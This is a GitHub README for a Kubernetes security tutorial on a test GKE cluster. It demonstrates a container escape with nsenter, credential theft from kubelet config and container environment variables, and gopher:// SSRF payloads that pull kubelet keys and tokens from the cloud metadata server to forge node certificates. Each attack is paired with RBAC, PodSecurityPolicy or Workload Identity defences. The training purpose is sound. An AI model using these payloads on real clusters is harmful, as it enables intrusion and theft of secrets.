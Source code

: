 # tutorial-gke-security
This repository is for a tutorial of "Kubernetes Security for Microservices"

[![Open in Cloud Shell](http://gstatic.com/cloudssh/images/open-btn.png)](https://console.cloud.google.com/cloudshell/open?git_repo=https://github.com/rung/tutorial-gke-security&page=editor&cloudshell_tutorial=README.md)

## Preparation
#### Set project id
```
PROJECT_ID="Your Project Name"
```

```
gcloud config set project $PROJECT_ID
```

#### Enable GKE API
```bash
gcloud services enable container.googleapis.com
```

#### Create GKE Cluster
```bash
gcloud beta container clusters create gke-security-testing --zone us-central1-a --machine-type n1-standard-1 --num-nodes 3 --enable-pod-security-policy --async
```
- You can check the status on [console](https://console.cloud.google.com/kubernetes/list)

#### Get a credential of GKE
```bash
gcloud container clusters get-credentials gke-security-testing --zone=us-central1-a
```

#### Testing
```
kubectl get node
```

#### Deploy web server
```
kubectl apply -f manifest/ssrf_server/ -R
```
- Please don't expose deployment on the Internet through Service.

## Demo 1: Compromised Developers' PC (PodSecurityPolicy/RBAC)
#### Run root container
```
kubectl apply -f manifest/root/pod.yaml
```

#### Enter root
```
kubectl exec -it root-container -- /bin/sh -c "nsenter --mount=/proc/1/ns/mnt -- /bin/bash"
```

#### Get credentials
```
kubectl --kubeconfig /var/lib/kubelet/kubeconfig get secret dummy-secret -o yaml
```

#### Get credentials(method 2) (Please copy this command from [GitHub](https://github.com/rung/tutorial-gke-security))
```
docker ps -q | xargs docker inspect --format='{{range .Config.Env}}{{println .}}{{end}}' | grep DB_Password
```

```
exit
```

#### How to block
- RBAC
- PodSecurityPolicy

```
alias kubectl-user='kubectl --as=system:serviceaccount:default:unprivileged-user'
```
```
kubectl delete pod root-container
```
```
kubectl delete rolebinding default-psp
```

##### Apply PodSecurityPolicy and RBAC
```
kubectl apply -f manifest/psp/ -R
```

##### Try to deploy privileged pod
```
kubectl-user apply -f manifest/root/pod.yaml
```
##### Try to use kubectl to another namaspaces
```
kubectl-user get pod -n kube-system
```

## Demo 2: Vulnerable Application (Workload Identity)
#### Port-forward
```
kubectl port-forward deployment/ssrf-server 8080:8080 2>&1 >/dev/null &
```

#### Open Web Preview
![web-preview](https://github.com/rung/tutorial-gke-security/raw/master/img/web-preview.png)
![web-page](https://github.com/rung/tutorial-gke-security/raw/master/img/web-page.png)

#### Input url (for testing)
```
https://www.example.com
```

#### Input malicious url
#### Get kubelet key
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/attributes/kube-env?alt=json HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```
It contains "KUBELET_KEY".

![web-metadata](https://github.com/rung/tutorial-gke-security/raw/master/img/web-metadata.png)

#### Save the metadata to metadata-script/metadata.txt
```
cd metadata-script
```

```
curl -X POST 'http://localhost:8080/get_contents' --data 'url=gopher%3A%2F%2F169.254.169.254%3A80%2F_GET+%2FcomputeMetadata%2Fv1%2Finstance%2Fattributes%2Fkube-env%3Falt%3Djson+HTTP%2F1.1%250d%250aMetadata-Flavor%3A+Google%250d%250aConnection%3A+Close%250d%250a%250d%250a' -o metadata.txt
```

#### Move current kubeconfig file
```
mv ~/.kube/config ~/.kube/config.tmp
```
```
kubectl config get-contexts
```

#### Get node certificate
- Extract necessary data from metadata
```bash
bash extract.sh
```
```
ls -l metadata
```

- Send CSR and Get node certificate
```
bash make_cert.sh $(cat metadata/nodename)
```

#### Get credentials
- Set env vars
```
KUBE_OPT="--client-certificate newcert/node.crt --client-key newcert/new.key --certificate-authority metadata/ca.crt --server https://$(cat metadata/api_ip)" && echo $KUBE_OPT
```

- Get secretName
```
kubectl $KUBE_OPT describe pod | grep secret
```

- Get secret
```
kubectl $KUBE_OPT get secret dummy-secret -o yaml
```

#### Move back kubeconfig file
```
mv ~/.kube/config.tmp ~/.kube/config
```
```
kubectl config get-contexts
```

#### (Reference) Get instance token
```
gopher://169.254.169.254:80/_GET /computeMetadata/v1/instance/service-accounts/default/token HTTP/1.1%0d%0aMetadata-Flavor: Google%0d%0aConnection: Close%0d%0a%0d%0a
```

### How to block
#### [Workload Identity](https://cloud.google.com/kubernetes-engine/docs/how-to/workload-identity)
- Enable workload identity (Need much time)
```
gcloud beta container clusters update gke-security-testing --identity-namespace=${PROJECT_ID}.svc.id.goog --region us-central1-a
```

```
gcloud beta container node-pools update default-pool --cluster=gke-security-testing --workload-metadata-from-node=GKE_METADATA_SERVER --zone us-central1-a
```

![web-workload-identity-enabled.png](https://github.com/rung/tutorial-gke-security/raw/master/img/web-workload-identity-enabled.png)

## (After this tutorial) Delete cluster
```bash
gcloud container clusters delete gke-security-testing --zone us-central1-a --async
```

## References
- [SSRF in Exchange leads to ROOT access in all instances](https://hackerone.com/reports/341876)
- [Hacking Kubelet on Google Kubernetes Engine](https://www.4armed.com/blog/hacking-kubelet-on-gke/)
- [The Path Less Traveled: Abusing Kubernetes Defaults](https://speakerdeck.com/iancoldwater/the-path-less-traveled-abusing-kubernetes-defaults)
